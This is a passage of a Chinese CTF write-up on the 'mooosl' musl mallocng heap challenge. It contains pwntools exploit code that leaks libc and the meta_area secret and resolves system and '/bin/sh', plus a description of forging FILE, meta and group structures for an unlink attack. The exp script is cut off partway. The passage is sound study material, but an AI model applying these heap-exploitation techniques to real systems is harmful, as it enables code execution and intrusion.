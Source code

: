 由此，我们可以获取到`meta_area`的`secret`值，libc的基地址等关键信息，之后就要开始使用unlink进行利用了。

```py
leak = hex2bytes(io.recvline().split(b":")[1])
group_addr = u64(leak[0:8]) - 0x70
smallchunk = group_addr + 0x30
mmap_addr = u64(leak[8:16]) - 0x20
enc = u64(leak[32:40]) - 1
libc_base = mmap_addr + 0x4000

for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(group_addr) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
meta_addr = u64(leak[0:8])
meta_area = meta_addr & 0xFFFF_FFFF_FFFF_F000
info('meta_area: ' + hex(meta_area))
for i in range(3):
    query(b'B' * 0x30)
query(p64(smallchunk) + p64(meta_area) + p64(1) + p64(0x30) + p64(enc) + p64(0), key_size=0x30)
query(b'B')

leak = hex2bytes(io.recvline().split(b":")[1])
secret = u64(leak[0:8])
info('secret: ' + hex(secret))
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
stderr = libc_base + libc.symbols['stderr']
stdout = libc_base + libc.symbols['stdout']
```

# 3. 解题第二步：伪造`FILE`、`meta`、`group`等结构并利用

这一步是常规步骤，我们将伪造的`FILE`结构体、伪造的`meta`、`group`、`chunk`放在一个chunk中，注意`meta_area`需要页对齐，并在页首部写入`secret`值。

写入之后，我们想办法释放假的chunk，方法是将原来用于leak的chunk分配出去，然后修改内部指针的值，再通过delete删除即可。然后就可以利用unlink修改stderr指针的值为我们的假chunk。但是很不幸的是，stderr指针所在的段是只读的，我不知道为什么很多的文章都说要修改这个地方，但是这里不能改，如果能改的话是肯定可以过的。也就是最后一次delete无法完成。

exp:

```py
from pwn import *
context.log_level = 'debug'
io = process('./mooosl', env={'LD_PRELOAD': 'libc.so'})
libc = ELF('libc.so')
elf = ELF('./mooosl')

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
att = lambda: gdb.attach(io)
sleep = lambda: time.sleep(3)

def encrypt(content: bytes):
    res = 2021
    for i in range(len(content)):
        res = res * 0x13377331 + ord(content.decode()[i])
        res %= 0x1_0000_0000
    return res & 0xFFF

def encrypt_original(content: bytes):
    res = 2021
    for i in range(len(content)):
        res = res * 0x13377331 + ord(content.decode()[i])
```